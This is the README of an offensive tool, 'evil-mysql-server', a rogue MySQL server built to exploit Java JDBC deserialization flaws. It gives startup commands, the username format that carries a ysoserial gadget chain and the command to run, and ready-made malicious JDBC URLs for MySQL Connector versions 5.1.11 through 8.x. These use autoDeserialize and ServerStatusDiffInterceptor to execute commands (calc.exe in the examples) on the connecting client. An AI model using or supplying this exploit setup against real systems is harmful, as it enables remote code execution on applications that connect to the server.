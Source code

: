 # evil mysql server

English | [简体中文](./README-zh_CN.md)

## Introduction

**evil-mysql-server** is a malicious database written to target jdbc deserialization vulnerabilities and requires ysoserial.

Usage

[ysoserial](https://github.com/frohoff/ysoserial)

```shell
./evil-mysql-server -addr 3306 -java java -ysoserial ysoserial-0.0.6-SNAPSHOT-all.jar
```

After successful startup use jdbc to connect, where the username format is `yso_payload_command`, after successful connection **evil-mysql-server** will parse the username and generate malicious data back to the jdbc client using the following command.

```shell
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections1 calc.exe
```

[ysuserial](https://github.com/su18/ysoserial) It's an enhanced project based on original ysoserial.

```shell
./evil-mysql-server -addr 3306 -java java -ysuserial ysuserial-0.9-su18-all.jar
```

After successful startup use jdbc to connect, where the username format is `ysu_payload_command`, after successful connection **evil-mysql-server** will parse the username and generate malicious data back to the jdbc client using the following command.

```shell
java -jar ysuserial-0.9-su18-all.jar -g CommonsCollections1 -p calc.exe
```

## JDBC url examples

**5.1.11-5.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

**6.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

**8.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

## Thanks

Thanks to the following projects for the inspiration

- [MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server)